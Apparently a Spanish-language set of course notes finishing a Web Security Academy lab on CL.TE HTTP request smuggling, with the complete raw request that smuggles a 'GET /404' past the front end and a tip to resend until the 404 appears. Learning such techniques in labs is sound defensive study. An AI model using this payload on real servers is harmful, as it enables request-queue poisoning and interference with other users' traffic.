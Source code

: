 En esta clase finalizamos el laboratorio dedicado a la vulnerabilidad de HTTP request smuggling basada en CL.TE. Tras haber confirmado el comportamiento anómalo del servidor en las clases anteriores, aquí completamos la explotación para lograr el objetivo final del laboratorio.

Utilizamos el mismo punto vulnerable para smugglear una petición maliciosa que se interpretará de forma distinta entre el frontend y el backend, provocando que una solicitud aparentemente inocua desencadene una respuesta inesperada. Este ataque demuestra cómo un atacante podría manipular el flujo de peticiones HTTP para obtener acceso no autorizado o interferir con otros usuarios, cerrando así el ciclo completo de explotación de esta técnica.

Solucion
entonce conociendo el payload vamos a realizar el ataque
(POST / HTTP/1.1

Host: 0a11006e04c3862f83d5509600060068.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 35

Transfer-Encoding: chunked



0



GET /404 HTTP/1.1

X-Ignore: X)

**==Nota: Tenemos que tener cuidado con los espacios==**
una vez aplicado le damos send y incistimos hasta que nos de el error 404
![[Pasted image 20250806195655.png]]

